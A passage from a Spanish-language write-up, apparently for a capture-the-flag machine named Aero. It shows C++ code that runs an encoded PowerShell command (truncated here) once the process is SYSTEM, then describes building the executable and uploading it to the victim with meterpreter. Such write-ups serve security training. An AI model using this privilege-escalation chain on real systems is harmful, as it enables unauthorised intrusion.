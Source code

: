 ```c++
if (strcmp(username, "SYSTEM") == 0){
	printf("WE ARE SYSTEM\n");
	system("powershell -e JABj...=");			
}else {
	printf("NOT SYSTEM\n");
}
exit(1);
return;
```
En mi caso como estoy usando vstudio 2022 y el proyecto esta hecho en vstudio 2019 debo hacer click derecho en el icono de solucion y luego click en `retarget solution` y se me deberia abrir el siguiente cuadro de texto:
<div style="text-align:center">
    <img src="/assets/img/Posts/Aero/retarget.JPG" alt="Grafica del estudio de mercado" >
</div>



Hago click en Ok. Luego selecciono Release > x64 > Build solution. Luego movemos el archivo .exe generado a nuestra maquina de atacante y lo pasamos a la maquina victima. En este caso lo hare con el meterpreter como se muestra a continuacion: 

<div style="text-align:center">
    <img src="/assets/img/Posts/Aero/upload.JPG" alt="Grafica del estudio de mercado" >
</div>
